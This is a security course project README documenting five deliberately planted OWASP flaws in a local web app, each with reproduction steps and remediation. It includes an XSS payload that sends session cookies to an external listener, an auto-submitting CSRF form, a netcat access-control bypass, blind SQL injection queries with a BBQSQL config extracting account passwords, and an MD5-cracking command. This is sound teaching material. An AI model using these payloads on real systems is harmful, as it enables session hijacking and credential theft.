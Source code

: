 # Cyber Security Base  - Project I

This is my solution for the first project of the [Cyber Security Base course](https://cybersecuritybase.github.io/). In this project our task is to create a web application that has at least five different flaws from the [OWASP top ten list](https://www.owasp.org/index.php/Top_10_2013-Top_10).

## Setup info
* Web page: http://localhost:8080/
* User accounts:
    1. u1
    2. u2
* Tools needed:
    1. t1
    2. t2


## Flaw 1 - Cross-Site Scripting
**OWASP description**: [A3-Cross-Site Scripting](https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS))

**Issue**: [Cross-Site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

**Steps to reproduce**:

1. Go to the sign up form to create a new user.
2. In the address field insert:
    ```
    <script>document.write('<img src="http://192.168.0.117:1234/' + document.cookie + '">')</script>
    ```
3. Start a netcat server using the command `nc -lp 1234` on the specified host. When a user opens the attendees page, a request is sent to this server:

    ![Result of XSS](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/XSS_session_cookie.png)
4. We now can take over the session of this user by changing our own session cookie using `document.cookie="JSESSIONID=E0ED84B16865028DF09E522DC8B8DDC8"` in the browser console. This way we are able to steal the session of the admin user when this user logs in.

**Remediation**:

* Escape user input when showing this on a page.
* Make sure that the HTTPOnly cookie flag is set for the session ID.


## Flaw 2 - Cross-Site Request Forgery
**OWASP description**: [A8-Cross-Site Request Forgery](https://www.owasp.org/index.php/Top_10_2013-A8-Cross-Site_Request_Forgery_(CSRF))

**Issue**: [Cross-Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery)

**Steps to reproduce**:

1. Create an HTML with the following content:
    ```
    <html>
        <body onload="document.forms[0].submit()">
            <form action="http://localhost:8080/profile" method="POST">
                <input type="hidden" name="count" id="count" value="1000" />
                <input type="submit" value="Submit" />    
            </form>
        </body>
    </html>
    ```
2. Host this page somewhere.
3. Login to the application with a user.
4. Go to the url where the CSRF attack page is hosted (e.g. https://benjaminstienlet.github.com/cybersecuritybase-project/csrf_attack.html).
5. The number of attendees for the user that was logged in is now changed to 1000:

    ![Result of CSRF](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/CSRF_result.png)

**Remediation**:

* Verify the same origin using standard headers.
* Use a secure random CSRF token for state changing operations.


## Flaw 3 - Missing Function Level Access Control
**OWASP description**: [A7-Missing Function Level Access Control](https://www.owasp.org/index.php/Top_10_2013-A7-Missing_Function_Level_Access_Control)

**Issue**: Regular users can access a privileged function

**Steps to reproduce**:

1. Login as a normal user and note down your session id
2. Connect to the web server using netcat with the following command: `nc 192.168.0.185 8080`
3. Insert the following HTTP request:

    ```
    DELETE /attendees/John%20Smith HTTP/1.1
    Host: 192.168.0.185:8080
    Cookie: JSESSIONID=6DE506E932836598A6BFCA5FC6427A61
    ```

4. Press enter to submit the request. The user John Smith now is successfully removed by a regular user who should not have these rights.

    ![Result of netcat](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/privileged_function_command.png)

**Remediation**:

* Don't use "presentation layer access control" but also check in the function itself that the authenticated user has the necessary privileges to perform this function.


## Flaw 4 - Injection
**OWASP description**: [A1-Injection](https://www.owasp.org/index.php/Top_10_2013-A1-Injection)

**Issue**: [Blind SQL injection](https://www.owasp.org/index.php/Blind_SQL_Injection)

**Steps to reproduce**:

1. Login to the web application.
2. Go to the attendees page.
3. Insert `nothing' OR '1'='1` in the search field. After applying this filter, all items are still shown. This indicates that we can exploit this using SQL injection. We will have to use a blind SQL injection as the result of the query is not printed. I chose for a content-based blind SQL injection, but a time-based injection should also work.
4. We can read the data from the database by doing a binary search on the ASCII value of each character in the database and iterating over all the characters. The base query for this method is:
    ```
    1' OR (ASCII(SUBSTRING(SELECT CONCAT(NAME,':',PASSWORD) FROM ACCOUNT LIMIT 1 OFFSET 1, 1, 1)) > 63) --
    ```

    If the list of attendees is shown, the query evaluated to true and the ASCII value of the first character in the Name column for the first row in the Account table is larger than 63. If no attendees are shown, then the query evaluated to false.
5. We can now execute this base query using the tool [BBQSQL](https://github.com/Neohapsis/bbqsql) with the following configuration file:
    ```
    [Request Config]
    url = http://192.168.0.185:8080/attendees
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    cookies = {'JSESSIONID': '19EE58D182C7FE01DC0312AD14172858'}
    data = searchString=${query}
    method = post

    [HTTP Config]
    query = 1' OR (ASCII(SUBSTRING(SELECT CONCAT(NAME,':',PASSWORD) FROM ACCOUNT LIMIT 1 OFFSET ${row_index:1}, ${char_index:1}, 1)) ${comparator:>} ${char_val:0}) --
    csv_output_file = bbqsql_output.csv
    technique = binary_search
    comparison_attr = size
    concurrency = 30
    ```
6. This tool gives the following output:

    ![Result of BBQSQL](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/SQLI_result.png)

**Remediation**:

* [Parameterized queries](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet#Defense_Option_1:_Prepared_Statements_.28with_Parameterized_Queries.29) can be used as a remediation for this SQL injection.


## Flaw 5 - Sensitive Data Exposure
**OWASP description**: [A6-Sensitive Data Exposure](https://www.owasp.org/index.php/Top_10_2013-A6-Sensitive_Data_Exposure)

**Issue**: Weak cryptographic algorithm and unsalted hashes used

**Steps to reproduce**:

1. In the previous flaw, we found the user names and hashes of the passwords. Using an [online tool](https://www.onlinehashcrack.com/hash-identification.php) to identify the hash type, we can see that these hashes are probably MD5 hashes.
2. We can try to crack the hashes using the tool 'john the ripper' with the command `john -format=raw-MD5 bbqsql_output.csv`:

    ![Result of john](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/SQLI_result.png)

    We could also check an [online reverse lookup](http://md5.gromweb.com/) for the MD5 hashes:

    ![Result of reverse lookup](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/MD5_reverse_lookup.png)

**Remediation**:

* Select a hashing algorithm that has no known vulnerabilities. For example the standard BCrypt algorithm in the Spring framework. The implementation in Spring also uses a random salt per user.
